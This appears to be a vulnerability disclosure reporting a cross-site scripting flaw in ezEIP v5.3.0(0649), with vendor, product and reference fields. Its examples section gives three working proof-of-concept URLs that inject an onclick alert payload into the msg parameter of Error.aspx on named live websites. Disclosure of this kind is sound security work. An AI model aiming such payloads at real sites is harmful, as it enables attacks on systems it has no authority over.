 > [Description]
</br>
> ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting vulnerability.
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Vendor of Product]
</br>
> http://gzwhir.com/
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Affected Product Code Base]
</br>
> ezEIP - ezEIP v5.3.0(0649)
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Attack Type]
</br>
> Context-dependent
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Reference]
</br>
> https://github.com/God-Pattern/ezEIP/blob/main/XSS%20Vulnerability.md
</br>
> ------------------------------------------
</br>
> [Examples]
</br>
> 
</br>
> 
</br>
> Examples_1
</br>
>http://qiqi.gzwhir.com:805/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_2
</br>
>http://en.mobi-antenna.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
>Examples_3
</br>
>http://www.szfaosc.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
